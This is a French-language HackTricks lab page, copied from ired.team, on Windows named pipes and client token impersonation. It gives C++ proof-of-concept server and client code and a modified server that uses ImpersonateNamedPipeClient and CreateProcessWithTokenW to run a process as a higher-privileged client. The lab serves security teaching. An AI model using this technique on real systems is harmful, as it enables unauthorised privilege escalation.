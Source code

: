 # Impersonnalisation du client de canal nommé

## Impersonnalisation du client de canal nommé

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Cette information a été copiée de** [**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)

## Vue d'ensemble

Un `pipe` est un bloc de mémoire partagée que les processus peuvent utiliser pour la communication et l'échange de données.

`Named Pipes` est un mécanisme Windows qui permet à deux processus non apparentés d'échanger des données entre eux, même si les processus se trouvent sur deux réseaux différents. C'est très similaire à l'architecture client/serveur car des notions telles que `un serveur de canal nommé` et un `client de canal nommé` existent.

Un serveur de canal nommé peut ouvrir un canal nommé avec un nom prédéfini, puis un client de canal nommé peut se connecter à ce canal via le nom connu. Une fois la connexion établie, l'échange de données peut commencer.

Ce laboratoire concerne un code PoC simple qui permet :

* de créer un serveur de canal nommé simple et mono-thread qui acceptera une connexion client
* au serveur de canal nommé d'écrire un message simple dans le canal nommé afin que le client de canal puisse le lire

## Code

Ci-dessous se trouve le PoC pour le serveur et le client :

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

return 0;
}
```
```markdown
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
HANDLE clientPipe = NULL;
BOOL isPipeRead = true;
wchar_t message[MESSAGE_SIZE] = { 0 };
DWORD bytesRead = 0;

std::wcout << "Connecting to " << pipeName << std::endl;
clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

while (isPipeRead) {
isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
std::wcout << "Received message: " << message;
}

return 0;
}
```
{% endtab %}
{% endtabs %}

## Exécution

Ci-dessous, le serveur de canal nommé et le client de canal nommé fonctionnent comme prévu :

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

Il est important de noter que la communication par canaux nommés utilise par défaut le protocole SMB :

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

Vérification de la manière dont le processus maintient un handle vers notre canal nommé `mantvydas-first-pipe` :

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

De manière similaire, nous pouvons voir le client ayant un handle ouvert vers le canal nommé :

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

Nous pouvons même voir notre canal avec powershell :
```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```
```markdown
## Impersonation de jeton

{% hint style="info" %}
Notez que pour usurper le jeton du processus client, vous devez avoir (le processus serveur créant le pipe) le privilège de jeton **`SeImpersonate`**.
{% endhint %}

Il est possible pour le serveur de pipe nommé d'usurper le contexte de sécurité du client de pipe nommé en utilisant un appel API `ImpersonateNamedPipeClient` qui, à son tour, change le jeton du thread actuel du serveur de pipe nommé avec celui du jeton du client de pipe nommé.

Nous pouvons mettre à jour le code du serveur de pipe nommé comme ceci pour réaliser l'usurpation - notez que les modifications sont visibles à partir de la ligne 25 :
```
```cpp
int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

std::wcout << "Impersonating the client..." << std::endl;
ImpersonateNamedPipeClient(serverPipe);
err = GetLastError();

STARTUPINFO	si = {};
wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
PROCESS_INFORMATION pi = {};
HANDLE threadToken = GetCurrentThreadToken();
CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

return 0;
}
```
Lorsque nous exécutons le serveur et nous y connectons avec le client qui fonctionne sous le contexte de sécurité de administrator@offense.local, nous pouvons voir que le thread principal du serveur de pipe nommé a assumé le jeton du client de pipe nommé - offense\administrator, bien que le PipeServer.exe lui-même fonctionne sous le contexte de sécurité de ws01\mantvydas. Cela ressemble-t-il à une bonne méthode pour élever les privilèges ?

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

